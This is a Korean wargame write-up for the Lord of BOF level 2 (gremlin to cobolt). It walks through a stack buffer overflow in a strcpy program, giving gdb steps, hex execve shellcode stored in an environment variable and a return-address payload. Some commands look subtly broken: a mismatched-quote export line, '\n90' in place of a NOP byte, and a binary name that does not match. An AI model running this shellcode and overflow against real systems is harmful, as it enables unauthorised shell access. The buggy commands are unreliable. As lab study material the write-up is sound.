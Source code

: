 # LOB 2번

#### ID : gremlin PW: hello bof world
<br>
**먼저 bash2에서 실행해야함을 기억하자** <br>

우선 cobolt.c의 내용을 보자<br>
```cat cobolt.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[16];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼의 크기가 16으로 작아졌을 뿐 lob 1번 문제와 유사하다.<br>
[LOB 1번 보기](https://github.com/white-bean/security-study/blob/master/lob/lob_1%EB%B2%88.md)

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**cobolt 코드를 디버깅해야하기 때문에 cobolt1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q cobolt1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 16만큼의 자리를 만들고있다.<br>
buffer에서 ebp까지의 거리가 16이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```../cobolt `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
